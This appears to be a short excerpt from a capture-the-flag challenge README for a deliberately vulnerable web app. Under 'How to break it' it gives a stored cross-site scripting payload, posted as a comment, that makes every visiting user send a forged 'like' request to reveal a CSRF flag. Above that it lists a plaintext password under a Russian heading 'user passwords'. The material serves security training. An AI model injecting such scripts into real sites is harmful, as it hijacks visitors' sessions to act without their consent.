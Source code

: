 # Пароли пользователей
1qazxsw23edcvfr45tgbnhy6

### 1.3 How to break it

- Register 5 users.
- Using one user, leave a comment like that under a post:
```html
<script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/like/1", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("value=1");
</script>
```
- Auth with each user and visit the post.
- See CSRF_FLAG_MASTER flag after it on a post page.
